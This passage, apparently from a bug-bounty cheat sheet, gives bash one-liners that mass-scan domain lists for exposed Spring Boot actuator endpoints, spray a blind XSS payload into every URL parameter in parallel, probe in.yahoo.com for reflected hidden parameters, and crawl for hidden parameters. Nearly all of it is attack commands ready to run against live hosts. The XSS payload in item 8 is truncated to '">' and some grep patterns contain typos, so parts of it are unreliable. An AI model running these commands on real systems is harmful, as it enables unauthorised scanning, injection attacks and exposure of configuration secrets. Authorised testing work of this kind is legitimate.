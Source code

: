 ## 7. SpringBoot Actuator Check One Liner

### On Live Domains

Explanation – Takes live domains list and checks wheather the springboot actuators are publicly accessible or not.

```bash
cat live-domains | rush -j40 'if curl -skI -m 10 "{}/env" | grep -i "x-application-context" || curl -sk -m 10 "{}/actuator/env" | grep -q "sping.config.location\\|[spring.application.name](http://spring.application.name/)\\|JAVA\_HOME" || curl -sk -m 10 "{}/env" | grep -q "sping.config.location\\|[spring.application.name](http://spring.application.name/)\\|JAVA\_HOME" || curl -sk -m 10 "{}/actuator" | grep -q '{"\_links":{"self"' || curl -sk -m 10 "{}/actuator/configprops" | grep -q "org.springframework.boot.actuate\\|beans" || curl -sk -m 10 "{}/configprops" | grep -q "org.springframework.boot.actuate\\|beans"; then echo "SpringBoot Actuator Found on {}"; fi' &
```

### On Live urls with params

Explanation – Takes urls list and checks wheather the application is using springboot or not.

```bash
cat params.txt | rush -j40 'if curl -skI -m 10 "{}" | grep -i "x-application-context"; then echo "SpringBoot application context header Found on {}"; fi'
```

## 8. Drop Blind XSS payload on list of Urls with params

Explanation – Takes urls file as input, replaces the param value with blind xss payload and issues the request with 40 workers running parallely.

```bash
cat urls.txt | qsreplace '">' | rush -j40 'curl -sk "{}" -o /dev/null'
```

## 9. Reflection Check (XSS) on one domain by extracting Hidden params

Explanation – Extracts the hidden parameters from the page and checks wheather it can be vulnerable to xss or not.

```bash
curl -skL "[https://in.yahoo.com](https://in.yahoo.com/)" | grep 'type="hidden"' | grep -Eo 'name="\[^\\"\]+"' | cut -d'"' -f2 | xargs -I@ sh -c 'if curl -skL [https://in.yahoo.com/?@=testxss](https://in.yahoo.com/?@=testxss) | grep -q "value=testxss"; then echo "reflection found from @ parameter"; fi'
```

## 10. Find hidden parameters via Crawl on list of urls

Explanation – Takes urls list and extracts hidden parameters from the list of urls and saves unique params in the file.

```bash
cat alive.txt | rush 'curl -skL "{}" | grep "type\\=\\"hidden\\"" | grep -Eo "name\\=\\"\[^\\"\]+\\"" | cut -d"\\"" -f2 | sort -u' | anew params.txt
```
